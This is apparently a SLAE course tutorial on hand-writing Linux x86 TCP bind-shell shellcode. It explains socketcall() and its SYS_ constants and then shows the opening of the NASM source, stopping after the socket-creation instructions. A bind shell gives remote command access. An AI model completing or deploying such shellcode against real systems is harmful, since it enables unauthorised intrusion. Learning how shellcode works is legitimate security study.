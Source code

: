 ```bash
       socketcall()  is  a  common  kernel  entry point for the socket system calls.  call determines which socket function to invoke.  args
       points to a block containing the actual arguments, which are passed through to the appropriate call.

       User programs should call the appropriate functions by their usual names.  Only standard library implementors and kernel hackers need
       to know about socketcall().
...
```  
  
Let's check the different values of the first **int call** argument:  
```bash
grep SYS_ /usr/include/linux/net.h 
#define SYS_SOCKET   1             /* sys_socket(2)            */
#define SYS_BIND     2             /* sys_bind(2)              */
#define SYS_CONNECT  3             /* sys_connect(2)           */
#define SYS_LISTEN   4             /* sys_listen(2)            */
#define SYS_ACCEPT   5             /* sys_accept(2)            */
#define SYS_GETSOCKNAME     6      /* sys_getsockname(2)       */
#define SYS_GETPEERNAME     7      /* sys_getpeername(2)       */
#define SYS_SOCKETPAIR      8      /* sys_socketpair(2)        */
#define SYS_SEND     9             /* sys_send(2)              */
#define SYS_RECV     10            /* sys_recv(2)              */
#define SYS_SENDTO   11            /* sys_sendto(2)            */
#define SYS_RECVFROM 12            /* sys_recvfrom(2)          */
#define SYS_SHUTDOWN 13            /* sys_shutdown(2)          */
#define SYS_SETSOCKOPT      14     /* sys_setsockopt(2)        */
#define SYS_GETSOCKOPT      15     /* sys_getsockopt(2)        */
#define SYS_SENDMSG  16            /* sys_sendmsg(2)           */
#define SYS_RECVMSG  17            /* sys_recvmsg(2)           */
#define SYS_ACCEPT4  18            /* sys_accept4(2)           */
#define SYS_RECVMMSG 19            /* sys_recvmmsg(2)          */
#define SYS_SENDMMSG 20            /* sys_sendmmsg(2)          */
```
  
So let's dive into our shellcode:  
```nasm
; shell_bind_tcp.nasm
; 
; A TCP port bind shellcode
;
; Author: SLAE - 891
;
; You are free to use and/or redistribute it without restriction

global _start

section       .text
_start:

; sockfd = socket(AF_INET, SOCK_STREAM, 0);
; int socketcall(int call, unsigned long *args);
; #define __NR_socketcall   102
; #define SYS_SOCKET        1
       xor ebx,ebx
       mul ebx              ; zero out eax and edx
       mov al, 102          ; __NR_socketcall
       mov bl, 1            ; SYS_SOCKET
       
       ; we are pushing on the stack our arguments
       push edx             ; IPPROTO_IP
       push byte 1          ; SOCK_STREAM
       push byte 2          ; AF_INET
```